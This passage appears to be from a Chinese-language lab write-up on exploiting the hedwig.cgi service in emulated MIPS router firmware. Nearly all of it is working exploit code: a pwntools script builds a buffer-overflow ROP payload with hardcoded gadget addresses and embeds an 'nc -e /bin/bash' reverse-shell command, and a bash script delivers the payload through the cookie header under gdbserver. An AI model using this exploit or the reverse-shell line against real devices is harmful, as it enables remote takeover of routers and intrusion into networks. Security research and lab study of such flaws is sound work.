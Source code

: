 exp如下：

```python
from pwn import *
context.endian = "little"
context.arch = "mips"
base_addr = 0x77f34000
system_addr_1 = 0x53200-1
gadget1 = 0x158c8
gadget2 = 0x159cc
cmd = 'nc -e /bin/bash 192.168.100.254 9999'
padding = 'A' * 973
padding += p32(base_addr + system_addr_1) # s0
padding += 'A' * 4                        # s1
padding += 'A' * 4                        # s2
padding += 'A' * 4                        # s3
padding += 'A' * 4                        # s4
padding += p32(base_addr+gadget2)         # s5
padding += 'A' * 4                        # s6
padding += 'A' * 4                        # s7
padding += 'A' * 4                        # fp
padding += p32(base_addr + gadget1)       # ra
padding += 'B' * 0x10
padding += cmd
f = open("context",'wb')
f.write(padding)
f.close()
```

运行exp生成context，将congtext上传，然后运行hedwig.cgi服务：

```python
#!/bin/bash
export CONTENT_TYPE="application/x-www-form-urlencoded"
export HTTP_COOKIE="uid=`cat context`"
export CONTENT_LENGTH=$(echo -n "$HTTP_COOKIE" | wc -c)
export REQUEST_METHOD="POST"
export REQUEST_URI="/hedwig.cgi"
echo "uid=4321"|./gdbserver.mipsle 192.168.100.254:8888 /htdocs/web/hedwig.cgi
#echo "uid=4321"|/htdocs/web/hedwig.cgi
```

最后可以在宿主机可以得到一个qemu虚拟系统的shell：

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/3977BDA0-8B65-4B72-BD5B-C7CEE25D6A87_2/8pthGY559Na0ecSHuLSBVDyIpOgOPpvaNKLE6vxuNyQz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/A75F3892-CBEE-4495-AA27-477E80D9F931_2/5ey2Kmehlxxl5xfbgbLSxyFWLHbLysSlbqYw4w3OyVsz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/BCACFD7A-35C4-40C9-8B65-DDCEB42A7139_2/CzJaVx2TL5JYnyc5KFKKoc4jCDMNuGZIeNjCpRa5Nqgz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/FF00A8AB-9499-48D9-99B2-C791C56E760B_2/Hxg9GezfKl9EGH1JrErLTBmLtPjHAKKFaZXQGIao29Yz/Image.png)

![Image.png](https://res.craft.do/user/full/4a11eb6f-59b0-cd8b-341f-635909b872bc/doc/9766AB3C-78FA-46D5-A9E1-9EBAF9A82BD4/3EFD6989-CA16-4ADE-9A64-6293C59FE91A_2/F48gGCeEw5YTSqDBElBIE5WTytbSNY25Vk7tKyO95y0z/Image.png)
